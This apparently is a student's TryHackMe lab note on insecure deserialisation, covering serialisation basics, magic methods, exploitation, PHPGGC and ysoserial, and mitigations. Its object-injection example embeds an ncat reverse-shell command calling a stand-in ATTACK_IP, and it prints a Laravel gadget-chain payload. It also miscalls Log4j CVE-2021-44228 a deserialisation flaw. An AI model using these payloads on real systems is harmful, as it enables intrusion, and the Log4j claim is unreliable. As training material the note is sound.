 📅 **Date**: 26 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: Server Side Attack
🏷️ Tags: #tryhackme #tryhackme/learn

---
# Insecure Deserialisation

## Serialisation
- [ ] **Definition**: Process of converting an object's state into a storable or transmittable format.
- [ ] **Analogy**: Like packing a school bag with books, notebooks, lunchbox, etc.
- [ ] **Purpose**: Used in web applications to transfer data between systems or networks.
- [ ] **Example in PHP**:
```php
<?php
$noteArray = array("title" => "My THM Note", "content" => "Welcome to THM!");
$serialisedNote = serialize($noteArray);  // Serialisation
file_put_contents('note.txt', $serialisedNote);  // Saving to file
?>
```

## Deserialisation
- [ ] **Definition**: Process of converting serialised data back into an object.
- [ ] **Analogy**: Like unpacking a school bag to use the items.
- [ ] **Purpose**: Retrieving data from files, databases, or networks.
- [ ] **Example in PHP**:
```php
<?php
$serialisedNote = file_get_contents('note.txt');  // Reading serialised data
$noteArray = unserialize($serialisedNote);  // Deserialisation
echo "Title: " . $noteArray['title'] . "<br>";
echo "Content: " . $noteArray['content'];
?>
```

## Insecure Deserialisation Vulnerabilities
- [ ] **Risk**: Attackers can manipulate serialised data to execute unauthorised actions or steal data.
- [ ] **Examples**:
    1. **Log4j Vulnerability (CVE-2021-44228)**:
        - [ ] **Impact**: Remote code execution via insecure deserialisation in Apache Log4j.
    2. **WebLogic Server RCE (CVE-2015-4852)**:
        - [ ] **Impact**: Remote code execution via maliciously crafted objects.
    3. **Jenkins Java Deserialisation (CVE-2016-0792)**:
        - [ ] **Impact**: Arbitrary code execution via crafted serialisation payloads.
## Serialisation in Different Languages
- [ ] **PHP**:
    - [ ] **Serialisation**: `serialize()` function.
    - [ ] **Deserialisation**: `unserialize()` function.
    - [ ] **Magic Methods**:
        - [ ] `__sleep()`: Called before serialisation.
        - [ ] `__wakeup()`: Called after deserialisation.
        - [ ] `__serialize()`: Custom serialisation (PHP 7.4+).
        - [ ] `__unserialize()`: Custom deserialisation (PHP 7.4+).
- [ ] **Python**:
    - [ ] **Serialisation**: `pickle.dumps()`.
    - [ ] **Deserialisation**: `pickle.loads()`.
    - [ ] **Base64 Encoding**: Used to safely transmit binary data.
	
---
## Exploitation Techniques
1. **Modifying Serialised Data**:
    - [ ] Example: Changing `isSubscribed` from `false` to `true` in a serialised cookie.
    - [ ] **Impact**: Unauthorised access to premium features.
2. **Object Injection**:
    - [ ] **Vulnerability**: Insecure deserialisation allows injecting malicious objects.
    - [ ] **Example**:
	```php
	<?php
	class MaliciousUserData {
		public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
	}
	$maliciousUserData = new MaliciousUserData();
	$serializedData = serialize($maliciousUserData);
	echo base64_encode($serializedData);
	?>
	```
    - [ ] **Impact**: Remote code execution via `__wakeup()` or `__destruct()`.
	
---
## Tools for Exploitation
1. **PHPGGC (PHP Gadget Chain)**:
    - [ ] **Purpose**: Generates gadget chains for PHP object injection.
    - [ ] **Usage**:
	```bash
	php phpggc Laravel/RCE3 system whoami
	``` 
    - [ ] **Example Payload**:
	```php
	O:40:"Illuminate\Broadcasting\PendingBroadcast":1:{s:9:"*events";O:39:"Illuminate\Notifications\ChannelManager":3:					 	         {s:6:"*app";s:6:"whoami";s:17:"*defaultChannel";s:1:"x";s:17:"*customCreators";a:1:{s:1:"x";s:6:"assert";}}}
	```
2. **Ysoserial (Java)**:
    - [ ] **Purpose**: Generates payloads for Java deserialisation vulnerabilities.
    - [ ] **Usage**:
	```java
	java -jar ysoserial.jar CommonsCollections1 'calc.exe'
	```
        
---
## Mitigation Strategies
1. **Red Team/Pentester Perspective**:
    - [ ] **Codebase Analysis**: Identify serialisation/deserialisation points.
    - [ ] **Vulnerability Identification**: Use static and dynamic analysis tools.
    - [ ] **Fuzzing**: Test with invalid or unexpected input data.
    - [ ] **Error Handling**: Assess how errors are handled during deserialisation.
2. **Secure Coder Perspective**:
    - [ ] **Avoid Insecure Formats**: Use JSON or XML instead of binary serialisation.
    - [ ] **Input Validation**: Validate and sanitise all inputs.
    - [ ] **Avoid `eval()` and `exec()`**: Prevent arbitrary code execution.
    - [ ] **Secure Coding Practices**: Follow least privilege, defence in depth, and fail-safe defaults.
    - [ ] **Adhere to Guidelines**: Follow language/framework-specific secure coding standards.

---
## Key Takeaways
- [ ] Serialisation and deserialisation are powerful but risky if not implemented securely.
- [ ] Insecure deserialisation can lead to remote code execution, data leakage, and unauthorised access.
- [ ] Tools like PHPGGC and Ysoserial automate exploitation but also help in identifying vulnerabilities.
- [ ] Mitigation involves secure coding practices, input validation, and avoiding insecure formats.

